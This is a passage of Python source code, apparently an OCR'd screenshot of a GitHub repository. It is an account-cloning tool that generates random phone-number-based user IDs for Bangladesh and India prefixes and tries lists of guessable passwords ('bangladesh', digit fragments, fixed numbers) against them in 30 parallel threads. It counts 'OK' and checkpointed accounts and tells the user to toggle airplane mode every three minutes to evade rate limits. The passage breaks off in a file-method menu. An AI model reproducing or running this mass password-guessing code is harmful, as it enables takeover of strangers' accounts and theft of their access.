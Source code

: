     cod = ''.join(random.choice(string.digits) for _ in range(2))
    clear()
    print(f'{G1}[{A}={G3}]{G3} EXAMPLE {A}:{G3} 3000{A}/{G3}5000{A}/{G3}10000{A}/{G3}99999');linex()
    limit = int(input(f'{G1}[{A}?{G4}]{G4} CHOICE  {A}:{G4} '))
    for x in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(4))
        user.append(nmp)
    clear()
    with Habib(max_workers=30) as sexy:
        clear()
        print(f'{G1}[{A}={G1}]{G1} SIM CODE  {A}:{G1} {code}')
        print(f'{G1}[{A}={G2}]{G2} TOTAL UID {A}:{G2} {str(len(user))}')
        print(f'{G1}[{A}={G3}]{G3} TURN {G3}[{A}ON{A}/{A}OFF{G3}]{G3} AIRPLANE MODE EVERY {A}3{G3} MIN');linex()
        for love in user:
            ids = code+name+cod+love
            psd = [code+name+cod+love,cod+love,name+love,code+name+cod,'bangladesh','Bangladesh']
            sexy.submit(randm,ids,psd)
    print('')
    print(f'\r{A}──────────────────────────────────────────────────')
    print(f'{G1}[{A}={G1}]{G1} THE PROCESS HAS BEEN COMPLETED')
    print(f'{G1}[{A}={G2}]{G2} TOTAL OK ID {A}:{G2} {str(len(ok))}')
    print(f'{G1}[{A}={G3}]{G3} TOTAL CP ID {A}:{G3} {str(len(cp))}')
    print(f'\r{A}──────────────────────────────────────────────────')
    input(f'{G1}[{A}={G4}]{G4} PRESS ENTER TO BACK ')
    menu()
#__________________[ INDIA ]__________________#
def _India_():
    clear()
    print(f'{G1}[{A}={G1}]{G1} EXAMPLE {A}:{G1} +91639{A}/{G1}+91934{A}/{G1}+91902{A}/{G1}+91701');linex()
    code = input(f'{G1}[{A}?{G2}]{G2} CHOICE  {A}:{G2} ')
    clear()
    print(f'{G1}[{A}={G3}]{G3} EXAMPLE {A}:{G3} 3000{A}/{G3}5000{A}/{G3}10000{A}/{G3}99999');linex()
    limit = int(input(f'{G1}[{A}?{G4}]{G4} CHOICE  {A}:{G4} '))
    for x in range(limit):
        nmp = "". join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    clear()
    with Habib(max_workers=30) as sexy:
        clear()
        print(f'{G1}[{A}={G1}]{G1} SIM CODE  {A}:{G1} {code}')
        print(f'{G1}[{A}={G2}]{G2} TOTAL UID {A}:{G2} {str(len(user))}')
        print(f'{G1}[{A}={G3}]{G3} TURN {G3}[{A}ON{A}/{A}OFF{G3}]{G3} AIRPLANE MODE EVERY {A}3{G3} MIN');linex()
        for love in user:
            ids = code+love
            psd = [love,ids[:8],'57273200','59039200','57575751']
            sexy.submit(randm,ids,psd)
    print('')
    print(f'\r{A}──────────────────────────────────────────────────')
    print(f'{G1}[{A}={G1}]{G1} THE PROCESS HAS BEEN COMPLETED')
    print(f'{G1}[{A}={G2}]{G2} TOTAL OK ID {A}:{G2} {str(len(ok))}')
    print(f'{G1}[{A}={G3}]{G3} TOTAL CP ID {A}:{G3} {str(len(cp))}')
    print(f'\r{A}──────────────────────────────────────────────────')
    input(f'{G1}[{A}={G4}]{G4} PRESS ENTER TO BACK ')
    menu()
#__________________[ FILE ]__________________#      
def _file_():
    global methods
    clear()
    print(f'{G1}[{A}1{G1}]{G1} METHOD {G1}[{A}M1{G1}]{G1} ')
    print(f'{G1}[{A}2{G2}]{G2} METHOD {G2}[{A}M2{G2}]{G1} ')
    linex()